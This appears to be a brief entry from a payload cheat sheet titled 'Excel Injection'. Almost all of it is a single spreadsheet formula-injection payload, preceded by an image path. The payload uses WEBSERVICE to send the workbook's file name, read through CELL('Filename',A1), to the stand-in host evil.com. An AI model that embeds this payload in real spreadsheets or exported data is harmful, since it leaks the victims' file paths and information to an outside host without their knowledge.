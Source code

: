 # Excel Injection

Inject into excel formulas: 

```
"&WEBSERVICE("http://evil.com/"&CELL("Filename",A1))&"
```